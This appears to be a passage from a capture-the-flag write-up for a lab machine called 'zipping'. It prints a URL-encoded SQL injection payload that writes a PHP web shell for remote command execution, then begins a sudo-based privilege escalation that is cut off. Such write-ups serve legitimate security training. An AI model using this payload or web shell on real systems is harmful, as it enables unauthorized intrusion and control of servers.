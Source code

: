 ![](images/2024-01-19-16-09-07.png)


i uploaded shell from sql injection and i got rce `%0A%0D';SELECT+'<%3fphp+system($_REQUEST["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/lib/mysql/sh.php'%3b+--+-0 ` here the payload url encoded



# Privilege Escalation

sudo -l 

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

`sudo /usr/bin/stock`
Enter Password:

so we need read the code using strings command

`strings /usr/bin/stock`
